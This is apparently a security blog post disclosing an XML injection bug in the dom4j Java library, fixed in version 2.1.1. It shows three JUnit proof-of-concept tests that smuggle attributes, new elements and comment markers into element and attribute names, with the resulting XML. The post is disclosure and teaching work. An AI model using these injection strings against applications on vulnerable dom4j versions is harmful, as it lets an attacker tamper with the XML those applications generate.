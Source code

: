 +++
title = "XML Injection in dom4j library"
description = "Brief summary of a vulnerabitity on dom4j by inject XML on element and attribute names"
date = 2018-07-24T13:15:43+10:00
draft = false
toc = false
categories = ["breaking"]
tags = ["xml", "cve", "injection"]
+++

[dom4j](https://dom4j.github.io/) is a well known java library to process and generate XML files.

In version [2.1.1](https://github.com/dom4j/dom4j/releases/tag/version-2.1.1) they fixed an issue regarding a [XML injection on element and attribute names](https://github.com/dom4j/dom4j/issues/48).

Prior to this version, the values of the elements were properly sanitized, but not the element itself. Same for attribute names. Let me show an example with a test

{{< highlight java "linenos=inline,hl_lines=6 8 20" >}}
    @Test
    public void testXMLInjectionOnElementName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedAttribute = "age=\"20\"";

        Element author = root.addElement("author " + injectedAttribute)
                .addAttribute("name", "James")
                .addAttribute("location", "UK");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedAttribute));
    }
{{< / highlight >}}

Result:
{{< highlight xml >}}  
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author age="20" name="James" location="UK"/>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

On `line 6` lives the attribute we want to inject. The injection happens on `line 8` by adding our attribute to the element name. And finally on `line 20`, the test asserts the line was successfully injected. The injection works successfully in case the element is a self closing element (i.e the element does not have any values). If the element has values the injected attribute is also written in the closing element which breaks any XML parsing.

Things get a bit more interesting when playing around with attributes. It is possible to inject new elements by adding them as attribute names, let me show another test as an example.

{{< highlight java "linenos=inline,hl_lines=6 9 20">}}
    @Test
    public void testXMLInjectionOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:
{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><author name="James" location="UK">James Strachan</author>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>

{{< / highlight >}}

This test is very similar to the previous one. Except that instead to add new attributes to an element, we are adding new elements. Also, we are doing that by inject into attribute names, which means we do not have the constraint anymore about self closing elements! The injection through attribute names are very powerful, an attacker could potentially add as many elements as they want.

Not only that, an attacker could comment other elements as well and effectively replacing them! Here comes the test:

{{< highlight java "linenos=inline,hl_lines=6 9 14 20">}}
    @Test
    public void testCommentOtherElementsOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><!-- author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("--><author name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:

{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><!-- author name="James" location="UK">James Strachan</author>
  <author --><author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

It is common place in an application to hardcode element names and attribute names, so this bug is not very likely to be exploitable. However, if an attacker somehow can inject whatever she wants on element and attribute names, she can possibly control the whole content of the file.

Thanks to [@FilipJirsak](https://github.com/FilipJirsak) for the quick response and release of the fixed version. Version 2.1.1 and above are fixed and do not have have the issue anymore. Versions below 2.1.1, including the legacy versions ( < 1.6) are also vulnerable.

## References

- https://github.com/dom4j/dom4j/issues/48 - Github issue describing the bug
- https://github.com/mario-areias/dom4j-xml-injection - Repository with the code described on this blog post
- https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008) - Test for XML injection from OWASP